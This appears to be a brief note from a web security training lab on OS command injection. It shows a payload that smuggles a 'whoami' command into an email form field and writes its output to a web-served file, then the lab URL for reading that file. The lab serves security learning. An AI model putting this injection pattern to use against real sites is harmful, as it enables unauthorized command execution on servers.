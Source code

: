 #inject command to the email submit
email@mail.com & whoami > /var/www/images/command.txt &

#access the url
https://acaa1fb51ec4883580bf098b008500f9.web-security-academy.net/image?filename=command.txt
